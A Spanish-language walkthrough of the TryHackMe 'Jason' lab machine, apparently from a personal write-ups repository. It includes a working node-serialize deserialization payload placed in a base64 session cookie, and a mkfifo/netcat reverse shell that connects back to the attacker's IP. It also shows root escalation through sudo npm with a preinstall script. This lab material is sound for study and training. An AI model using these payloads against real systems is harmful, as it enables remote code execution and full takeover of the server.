 
# Jason

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/0396cbfe-1747-4f33-b9d2-fbafd2634f1d)

***
- Source: https://tryhackme.com/room/jason
- OS: Linux
- Dificultad: Easy
- IP: No estática
- Temas: `Deserialization`, `JavaScript`, `NodeJS`, `PrivEsc`.
***

- Realizamos un escaneo de puertos, para saber a que nos enfrentamos:

~~~bash
┌──(kali💀Dedsec)-[~/Maquinas/Linux/Jax]
└─$ sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn -sV 10.10.39.206 
[sudo] contraseña para kali: 
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94 ( https://nmap.org ) at 2024-02-07 14:15 EST
NSE: Loaded 46 scripts for scanning.
Initiating SYN Stealth Scan at 14:15
Scanning 10.10.39.206 [65535 ports]
Discovered open port 80/tcp on 10.10.39.206
Discovered open port 22/tcp on 10.10.39.206
Completed SYN Stealth Scan at 14:15, 16.79s elapsed (65535 total ports)
Initiating Service scan at 14:15
Scanning 2 services on 10.10.39.206
Completed Service scan at 14:16, 25.47s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.39.206.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 14:16
Completed NSE at 14:16, 1.96s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 14:16
Completed NSE at 14:16, 0.51s elapsed
Nmap scan report for 10.10.39.206
Host is up, received user-set (0.24s latency).
Scanned at 2024-02-07 14:15:40 EST for 45s
Not shown: 65200 closed tcp ports (reset), 333 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 61
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 45.18 seconds
           Raw packets sent: 81715 (3.595MB) | Rcvd: 74999 (3.000MB)
~~~

- Tenemos un servidor http en el puerto 80, si le echamos una mirada vemos que podemos introducir una dirección de correo:

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/35e511fd-0608-4b0e-8424-f132e983980b)

- Si realizamos la petición POST con curl, vemos que nos retorna algo:

~~~bash
┌──(kali💀Dedsec)-[~/Maquinas/Linux/Jax]
└─$ curl -s -X POST 'http://10.10.39.206/?email=test@test.com' -I
HTTP/1.1 200 OK
Set-Cookie: session=eyJlbWFpbCI6InRlc3RAdGVzdC5jb20ifQ==; Max-Age=900000; HttpOnly, Secure
Content-Type: text/html
Date: Wed, 07 Feb 2024 19:31:41 GMT
Connection: keep-alive
Transfer-Encoding: chunked
~~~

- Tenemos una cookie de sesión, con regex podemos verla en texto claro:

~~~bash
┌──(kali💀Dedsec)-[~/Maquinas/Linux/Jax]
└─$ curl -s -X POST 'http://10.10.39.206/?email=test@test.com' -I | grep -oE 'session=[^;]+' | awk -F= '{print $2}' | base64 -d 2>/dev/null
{"email":"test@test.com"}
~~~

- Y bien, al parecer se trata de un objeto json que serializa el correo para procesarlo.
- Probé utilizar una [vulnerabilidad de deserialización en json](https://book.hacktricks.xyz/pentesting-web/deserialization) que funcionó, solo modifiqué añadiendo paréntesis al final para que la instrucción se ejecute inmediatamente.
- Hice varias pruebas, con comandos como `ls`, `sleep`, etc, pero ninguno funcionaba, solo funcionó una prueba de ping que hice:
  
~~~json
{"email":"_$$ND_FUNC$$_function(){ require('child_process').exec('ping -c 3 10.2.60.167', function(error, stdout, stderr) { console.log(stdout) })}()"}
~~~

- Lo codifiqué con el `Decoder de Burpsuite` en base64, y realicé una solicitud GET al server con esta cookie de sesión:

~~~http
GET / HTTP/1.1
Host: 10.10.39.206
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: es-MX,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: session=eyJlbWFpbCI6Il8kJE5EX0ZVTkMkJF9mdW5jdGlvbigpeyByZXF1aXJlKCdjaGlsZF9wcm9jZXNzJykuZXhlYygncGluZyAtYyAzIDEwLjIuNjAuMTY3JywgZnVuY3Rpb24oZXJyb3IsIHN0ZG91dCwgc3RkZXJyKSB7IGNvbnNvbGUubG9nKHN0ZG91dCkgfSl9KCkifQo=
Upgrade-Insecure-Requests: 1
~~~

- Me puse en escucha con `tcpdump` y vi que había respuesta:

~~~bash
┌──(kali💀Dedsec)-[~/Maquinas/Linux/Jax]
└─$ sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
15:16:31.227265 IP 10.10.39.206 > 10.2.60.167: ICMP echo request, id 7, seq 1, length 64
15:16:31.227408 IP 10.2.60.167 > 10.10.39.206: ICMP echo reply, id 7, seq 1, length 64
15:16:32.229813 IP 10.10.39.206 > 10.2.60.167: ICMP echo request, id 7, seq 2, length 64
15:16:32.229873 IP 10.2.60.167 > 10.10.39.206: ICMP echo reply, id 7, seq 2, length 64
15:16:33.231161 IP 10.10.39.206 > 10.2.60.167: ICMP echo request, id 7, seq 3, length 64
15:16:33.231195 IP 10.2.60.167 > 10.10.39.206: ICMP echo reply, id 7, seq 3, length 64
~~~

- Entonces, sería cuestión de cambiar el objeto por algo así:

~~~json
{"email":"_$$ND_FUNC$$_function(){ require('child_process').exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.2.60.167 4444 >/tmp/f', function(error, stdout, stderr) { console.log(stdout) })}()"}
~~~

- Y ya tendríamos conexión:

~~~bash
┌──(kali💀Dedsec)-[~/Maquinas/Linux/Jax]
└─$ nc -lvnp 4444   
listening on [any] 4444 ...
connect to [10.2.60.167] from (UNKNOWN) [10.10.39.206] 37746
sh: 0: can't access tty; job control turned off
$ id
uid=1000(dylan) gid=1000(dylan) groups=1000(dylan)
~~~

- Hacemos un tratamiento de la TTY y ya podríamos comenzar a buscar algo para escalar privilegios:

~~~bash
script /dev/null -c bash
^Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 44 columns 184
~~~

***
<h3>PrivEsc:</h3>

- Enumeré algunas cosas básicas en permisos, y descubrí que podemos ejecutar cierto binario con permisos de root:

~~~bash
dylan@jason:/opt/webapp$ sudo -l
Matching Defaults entries for dylan on jason:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dylan may run the following commands on jason:
    (ALL) NOPASSWD: /usr/bin/npm *
dylan@jason:/opt/webapp$ /usr/bin/npm
~~~

- En [GTFObins](https://gtfobins.github.io/gtfobins/npm/) hay un apartado para este binario, siguiendo las instrucciones podemos hacer lo siguiente:

~~~bash
dylan@jason:/opt/webapp$ TF=$(mktemp -d)
dylan@jason:/opt/webapp$ echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
dylan@jason:/opt/webapp$ sudo npm -C $TF --unsafe-perm i
[..................] | rollbackFailedOptional: verb npm-session 1d957450bad5d
> @ preinstall /tmp/tmp.G1zarlqJXR
> /bin/sh

# id
uid=0(root) gid=0(root) groups=0(root)
~~~

- Y eso sería todo, es una máquina demasiado sencilla, pero que sirve de igual forma para repasar conceptos de deserialización y enumeración muy básicos.
